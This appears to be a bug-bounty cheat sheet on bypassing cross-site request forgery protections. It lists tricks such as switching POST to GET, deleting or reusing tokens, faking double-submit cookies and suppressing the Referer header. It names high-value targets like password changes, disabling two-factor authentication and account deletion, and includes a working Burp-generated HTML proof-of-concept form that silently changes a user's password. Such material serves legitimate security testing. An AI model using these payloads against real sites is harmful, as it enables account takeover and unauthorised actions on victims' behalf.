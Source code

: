 # CSRF:

- No CSRF token –> exploit using IMG tag.
- Change the request to GET from POST
- Delete the Token
- remove token parameter from request
- Not Validating USED TOKEN
- DOUBLE COOKIE CHECK –> change with fake cookies to both
- Use second user’s unused Token
- AREAS to try on CSRF:
    1. Account Details change. (Email / username / security Question)
    2. Email and Password change if no old password needed
    3. Disable 2FA
    4. Disconnect social media account connected to thataccount. 5. Delete account
    5. Add comment to other person
    6. creating some new thing and modifying it
    7. remove items from the cart
    8. vote / unvote

## CSRF Code:

- In the Burp PRO , generate CSRF POC:
    1. Right Click on the Request.
    2. Engagement tools
    3. CSRF POC

```
<html>

<!-- CSRF PoC - generated by Burp Suite Professional -->

<body>

<script>history.pushState('', '', '/')</script>

<form action="http://127.0.0.1/vulnerabilities/csrf/">

<input type="hidden" name="password&#95;new" value="prince123" />

<input type="hidden" name="password&#95;conf" value="prince123" />

<input type="hidden" name="Change" value="Change" />

<input type="submit" value="Submit request" />

</form>

<meta name=”referrer” content=”no-referrer”>

</body>

</html>
```

## CSRF when the server is checking the referer header in the request:

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy

- Add the following code in the HTML CSRF payload: `<meta name=”referrer” content=”no-referrer”>`

v

## References:

https://medium.com/swlh/bypassing-csrf-protection-c9b217175ee

## Contributors:
- [Prince Prafull](https://twitter.com/princeprafull3)